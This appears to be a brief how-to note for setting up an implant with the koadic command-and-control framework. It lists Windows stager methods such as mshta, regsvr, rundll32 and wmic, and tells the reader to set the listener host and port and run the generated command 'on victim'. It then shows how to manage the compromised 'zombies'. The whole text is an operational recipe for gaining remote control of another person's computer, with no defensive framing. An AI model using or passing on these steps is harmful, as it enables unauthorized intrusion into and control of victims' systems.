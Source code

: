 Setting up an implant with koadic:

./koadic

1. Command: `use stager/js/<entry from list below>`
    - bitsadmin
    - disk
    - mshta
    - regsvr
    - rundll32
    - wmic
2. Set LHOST, SRVPORT
3. Command: `run` and note down the command that was given to you
4. Install on victim using the exploit used from the list with the command that was given in the terminal
5. Command: `zombies <ID>` If this was the first stager made, the ID is 0, but run `zombies` without an ID to list all stagers
